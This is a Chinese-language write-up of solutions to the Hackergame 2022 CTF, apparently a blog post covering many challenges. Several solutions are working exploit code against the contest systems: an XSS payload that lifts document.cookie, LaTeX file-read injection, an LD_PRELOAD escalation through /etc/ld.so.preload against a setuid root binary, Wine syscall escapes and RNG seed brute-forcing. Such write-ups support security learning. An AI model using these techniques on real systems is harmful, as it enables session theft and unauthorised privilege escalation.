


赛后总结
binary：1450 ， general：1850 ， math：450 ， web：900
总体非常满意，不得不感叹官方团队和各位选手之巧思，相较其它比赛的枯燥，Hackergame 当之无愧为体验最好的几个 CTF 之一，无论是题面，解法，以及隐藏在题目中的 homo ，都充满了趣味性，让人不得不感叹一声：妙啊
Binary 的突破
或许是得益于对 Magisk 的研究，以及感谢蒋炎岩老师的 操作系统课 （讲得真的很好，推荐大家去看看），让我学到了不少 Linux 魔法， 今年的 binary 题终于不白给了（甚至一度超过 general 的分数），比较遗憾的是对 ELF 文件结构和 x86-64 汇编这块还不够了解，导致错过了一些 flag
Math 一败涂地
除了蒙特卡罗轮盘赌这道不是 Math 的 Math 题，就只拿了企鹅拼盘的两个暴力解，果然我的数学底子还是太烂了…… 这就去恶补预习 离散（
部分题解
签到
今年的签到题比 Hackergame 2021 简单了不少，直接改 URL 后面的 result 为 2022 即可：
1 http://202.38.93.111:12022/?result=2022
猫咪问答
成立时间：2017-03｜传送门
KDE 程序：Kdenlive｜传送门 （你问我怎么知道的？因为我用过）
Firefox 版本：12｜传送门
Commit Hash：dcd46d897adb70d63e025f175a00a89797d31a43｜传送门
连接的域名：sdf.org｜传送门 （需要再通过 ip 查域名）
「网络通」资费：2003-03-01｜传送门
家目录里的秘密
VSCode 里的 flag
解压完直接 grep：
1 grep -r -E 'flag\{.*\}' user
Rclone 里的 flag
注意到有一个 rclone.conf 文件：
1 2 3 4 5 [flag2] type = ftp host = ftp.example.com user = user pass = tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ
HeiLang
做几次正则替换，把代码变成这样即可：
1 2 3 4 a = np.zeros((10000 ,), dtype=int ) a[np.array([1225 , 2381 , 2956 , 3380 , 3441 , 4073 , 4090 , 4439 , 5883 , 6253 , 7683 , 8231 , 9933 ])] = 978 a[np.array([412 , 5923 , 7217 , 7289 , 7336 , 9991 , 9995 ])] = 51
Xcaptcha
老爬虫人了，直接进行一个 Python 的请求模拟：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 import reimport httpxtoken = '******' client = httpx.Client(follow_redirects=True ) client.get( 'http://202.38.93.111:10047/xcaptcha' , params={ 'token' : token } ) resp = client.get('http://202.38.93.111:10047/xcaptcha' ) result = [eval (it) for it in re.findall(r'([+\d]+) 的结果是？' , resp.text)] payload = dict (zip ([f'captcha{it} ' for it in (1 , 2 , 3 )], result)) resp = client.post( 'http://202.38.93.111:10047/xcaptcha' , data=payload ) print (resp.text)
旅行照片 2.0
照片分析
十分简单，随便找个能看 EXIF 的工具就行（甚至在线）
社工入门
Yandex 图搜索，可知照片中的场馆为 ZOZO 海洋球场 ，对比 Google Map 得知拍照人位于东南方的 APA Hotel，邮编为 261-0021。
根据上一题中的手机品牌，结合玻璃反射的摄像头形状，稍加搜索就能找到手机型号是 Redmi 9T ，于是得到分辨率为 2340x1080
观察飞机的方向，能在地图上找到东京国际机场，推测飞机很可能就是从这里起飞的。到 flightradar24 上查看当日航班信息，可以得到剩下的几条信息：
猜数字
一开始被题目给绕进去了，以为是要玩随机种子碰撞，后来仔细研究了判断代码，这里摘录一段：
1 2 3 4 5 6 var guess = Double.parseDouble(event.asCharacters().getData());var isLess = guess < this .number - 1e-6 / 2 ;var isMore = guess > this .number + 1e-6 / 2 ;var isPassed = !isLess && !isMore;
即不大于也不小于……除了等于之外，还有 NaN 嘛！提交 NaN 即可
LaTeX 机器人
纯文本
简单查阅 latex 语法，填入 \input{/flag1} 即可
特殊字符混入
自己做了一天也没做出来…… 果然这玩意还得是看 前人的智慧
1 2 3 \catcode `\# =12\catcode `\_ =12\input {/flag2}
Flag 的痕迹
官方文档 指出：除了查看历史记录，还能够查看编辑前后的差异信息，所以只需要访问 /doku.php?id=start&do=diff 查看编辑记录，就能找到 flag
安全的在线测评
无法 AC 的题目
十分简单，直接读评测数据并输出就行了：
1 2 3 4 5 6 7 8 9 10 11 12 13 #include <stdio.h> int main () FILE *fp = fopen("/proc/self/cwd/data/static.out" , "r" ); char buffer[4096 ]; while (fscanf (fp, "%s" , buffer) != EOF) { printf ("%s\n" , buffer); } return 0 ; }
动态数据
参考 How to Embed Binary Data in Program Code 的实现，用内联汇编将 .out 文件包含进程序中，同时用共享内存计数，判断是第几组数据：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 #include <stdio.h> #include <sys/shm.h> #define IMPORT(path, name) \ __asm__( \ ".section .rodata\n\t" \ ".global " #name "_addr\n\t" \ ".balign 16\n" \ #name "_addr:\n\t" \ ".incbin " #path "\n\t" \ ".byte 0\n\t" \ ); \ extern const __attribute__((aligned(16))) void *name##_addr; IMPORT("data/dynamic0.out" , dynamic0); IMPORT("data/dynamic1.out" , dynamic1); IMPORT("data/dynamic2.out" , dynamic2); IMPORT("data/dynamic3.out" , dynamic3); IMPORT("data/dynamic4.out" , dynamic4); int main () int id = shmget(114514 , 0x1000 , IPC_CREAT | 0666 ); char *addr = (char *) shmat(id, NULL , 0 ); if (addr[0 ] == 0 ) { FILE *fp = fopen("/proc/self/cwd/data/static.out" , "r" ); char buffer[4096 ]; while (fscanf (fp, "%s" , buffer) != EOF) { printf ("%s\n" , buffer); } } else { switch (addr[0 ]) { case 1 : { printf ("%s" , (char *) &dynamic0_addr); break ; } case 2 : { printf ("%s" , (char *) &dynamic1_addr); break ; } case 3 : { printf ("%s" , (char *) &dynamic2_addr); break ; } case 4 : { printf ("%s" , (char *) &dynamic3_addr); break ; } case 5 : { printf ("%s" , (char *) &dynamic4_addr); break ; } } } addr[0 ] += 1 ; return 0 ; }
线路板
通信人想起了工训坐牢的时光…… 找一个能在线看 Gerber 文件的网站，查看 ebaz_sdr-F_Cu.gbr 即可：
Flag 自动机
调试器附加上去改几个点就行，总体难度不高，为了这题还特地切到 Windows 装了 CE（
这里将 [ebp + 14] 与 114514 比较 （怎么哪里都有 homo） ，如果相等则跳到下面的 "Congratulations" xxxxxx，否则进入 "Error" xxxxxxx，所以直接把这个指令替换成 jmp
为了防止按钮到处乱跑，需要把这里的两个 msvcrt.rand 全部换成 nop
两处替换完成之后，点击「狠心夺取」即可通关
微积分计算小练习
「姓名」一栏的内容会被直接字符串拼接进最终的网页，结合 bot.py，可以考虑注入一段脚本，在姓名加载后，将分数一栏替换成 document.cookie：
1 <img src ="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAAAAAA6fptVAAAACklEQVQIHWNgAAAAAgABz8g15QAAAABJRU5ErkJggg==" onload ="document.querySelector('#score').innerHTML = document.cookie" />
P.S. 这里用 <script> 标签是不好使的
杯窗鹅影
Wine 似乎没有什么很好的手段拦截直接进行的系统调用 ，基于此，我们可以把 syscall 以内联汇编的形式写进可执行文件，两个问都可以通过：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 #include <stdio.h> int main () int tmp; const char buffer[256 ] = {'/' , 'f' , 'l' , 'a' , 'g' , '1' , '\0' }; __asm__ __volatile__ ( "syscall" : "=a" (tmp) : "0" (2 ), "D" (buffer), "S" (0 ) : "memory" ); __asm__ __volatile__ ( "syscall" : "=a" (tmp) : "0" (0 ), "D" (tmp), "S" (buffer), "d" (sizeof (buffer)) : "memory" ); printf ("%s\n" , buffer); return 0 ; }
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 #include <stdio.h> int main () int tmp; const char buffer[256 ] = {'/' , 'r' , 'e' , 'a' , 'd' , 'f' , 'l' , 'a' , 'g' , '\0' }; __asm__ __volatile__ ( "syscall" : "=a" (tmp) : "0" (59 ), "D" (buffer), "S" (0 ), "d" (0 ) : "memory" ); printf ("%s\n" , buffer); return 0 ; }
以及为什么拿到这两个 Flag 的人数会相差这么多，难道是有什么特殊的 Windows 魔法么🤔
蒙特卡罗轮盘赌
根据源代码文件，其随机种子由时间生成，那么我们就可以从一个大致的时间开始，暴力枚举可能的随机种子，并通过前两个数字来判断其正确性：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 #include <stdio.h> #include <stdlib.h> #include <time.h> #include <math.h> double frand () return (double ) rand() / RAND_MAX; } double sample () const int N = 400000 ; int cnt = 0 ; for (int j = 0 ; j < N; j++) { double x = frand(); double y = frand(); if (x * x + y * y < 1 ) cnt++; } return (double ) cnt / N * 4 ; } int main (int argc, char *argv[]) long from; sscanf (argv[1 ], "%ld" , &from); double first, second; sscanf (argv[2 ], "%lf" , &first); sscanf (argv[3 ], "%lf" , &second); const double threshold = 0.00005 ; printf ("searching (T=%ld, floats=%lf, %lf)...\n" , from, first, second); for (long T = from; T < from + 10 ; T++) { for (long clk = 0 ; clk < 1000 ; clk++) { srand((unsigned ) T + clk); double result = sample(); if (fabs (result - first) > threshold) continue ; result = sample(); if (fabs (result - second) > threshold) continue ; printf ("result for T=%ld: \n" , T); for (int i = 0 ; i < 3 ; i++) { printf ("%.5lf\n" , sample()); } printf ("\n" ); } printf ("%ld epochs\n" , (T - from + 1 ) * 1000 ); } return 0 ; }
本题对时间要求较为严格，故采用 nc 连接：
1 2 date +%s nc 202.38.93.111 10091
光与影
不难发现 fragment-shader.js 里就是渲染代码，其中有一个奇怪名字的函数 mk_homo😰，创建本地 Override 并把它改成这样：
1 2 3 vec4 mk_homo (vec3 orig) { return vec4 (orig.x, orig.y - 20.0 , orig.z, 1.2 ); }
刷新页面，flag 就会上移到遮挡外面：

传达不到的文件
没想到会先做出来高分题（
看了一下 官方题解 ，似乎出题人设计存在问题，导致了很多非预期解法，但貌似修复后也不会影响我这种注入的（或许应该禁止一般用户写配置文件？)
打不开
我们有一个 04111 权限的 chall 文件，而且所属用户是 0（root），再一联想到 Zygisk 的注入机制，诶这不就有办法了嘛！写一个动态链接库，然后让 ld 为我们加载：
1 2 3 4 5 6 7 8 9 10 #include <stdio.h> __attribute__((constructor)) void hack () FILE* fp = fopen("flag2" , "r" ); char flag[256 ]; fscanf (fp, "%[^\n]" , flag); printf ("Hacked!\n" ); printf ("%s\n" , flag); }
编译为 hack.so 发送到实验环境，再通过 echo /hack.so > /etc/ld.so.preload 写入配置，此时执行 /chall 即可越权读到 flag2 文件
读不到
把刚刚的程序改一下，让我们的 chall 在执行时把自己 chmod 成 0777 权限：
1 2 3 4 5 6 7 8 #include <stdio.h> #include <sys/stat.h> __attribute__((constructor)) void hack () printf ("Hacked!\n" ); chmod("/chall" , 0777 ); }
然后就可以通过 strings /chall 获取 flag
看不见的彼方
共享内存通信即可：
Alice.c 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 #include <stdio.h> #include <string.h> #include <sys/shm.h> int main () FILE *fp = fopen("/secret" , "r" ); char buffer[0x1000 ]; fscanf (fp, "%[^\n]s" , buffer); fclose(fp); int id = shmget(114514 , 0x1000 , IPC_CREAT | 0666 ); void *addr = shmat(id, NULL , 0 ); memcpy (addr, buffer, sizeof (buffer)); }
Bob.c 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 #include <stdio.h> #include <string.h> #include <sys/shm.h> int main (void ) int id = shmget(114514 , 0x1000 , IPC_CREAT | 0666 ); void *addr = shmat(id, NULL , 0 ); char buffer[0x1000 ]; for (;;) { memcpy (buffer, addr, sizeof (buffer)); if (strlen (buffer)) { printf ("%s\n" , buffer); break ; } } return 0 ; }
企鹅拼盘
这么简单我闭眼都可以！
确实，才 16 个，直接枚举（
大力当然出奇迹啦~
确实，才 16 位，而且答案固定，所以我们可以暴力：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 use std::error::Error;use std::fs;use std::path::PathBuf;use clap::Parser;use rayon::prelude::*;use serde_json::Value;#[derive(Parser)] #[clap(version, about)] struct Args #[clap()] length: u32 , #[clap()] rule_json: PathBuf, } #[derive(Debug)] struct Board map: Vec <Vec <u8 >>, cursor: (usize , usize ), } impl Board { const EMPTY: u8 = 15 ; fn new Self { let mut map = vec! [vec! [0 ; 4 ]; 4 ]; for i in 0 .. 4 { for j in 0 .. 4 { map[i][j] = (i * 4 + j) as u8 } } Board { map, cursor: (3 , 3 ) } } fn update mut self , moves: Vec <char >) { for op in moves { let (x, y) = self .cursor; match op { 'L' => { self .map[x][y] = self .map[x][y - 1 ]; self .map[x][y - 1 ] = Self::EMPTY; self .cursor.1 -= 1 ; } 'R' => { self .map[x][y] = self .map[x][y + 1 ]; self .map[x][y + 1 ] = Self::EMPTY; self .cursor.1 += 1 ; } 'U' => { self .map[x][y] = self .map[x - 1 ][y]; self .map[x - 1 ][y] = Self::EMPTY; self .cursor.0 -= 1 ; } 'D' => { self .map[x][y] = self .map[x + 1 ][y]; self .map[x + 1 ][y] = Self::EMPTY; self .cursor.0 += 1 ; } _ => panic! (), } } } fn is_win self ) -> bool { for i in 0 .. 4 { for j in 0 .. 4 { if self .map[i][j] as usize != i * 4 + j { return true ; } } } false } } fn main Result <(), Box <dyn Error>> { let args = Args::parse(); let json = fs::read_to_string(args.rule_json).unwrap(); let rule: Value = serde_json::from_str(&json).unwrap(); (0 .. 1 << args.length).into_par_iter().for_each(|x| { let mut board = Board::new(); for i in 0 .. rule.as_array().unwrap().len() { let index = rule[i][0 ].as_u64().unwrap() as u32 ; if x & (1 << (args.length - index - 1 )) != 0 { board.update(rule[i][1 ].as_str().unwrap().chars().collect()); } else { board.update(rule[i][2 ].as_str().unwrap().chars().collect()); } } if board.is_win() { println! ("answer found: {:0>1$b}" , x, args.length as usize ); } }); Ok (()) }
1 cargo run <length> <json-path>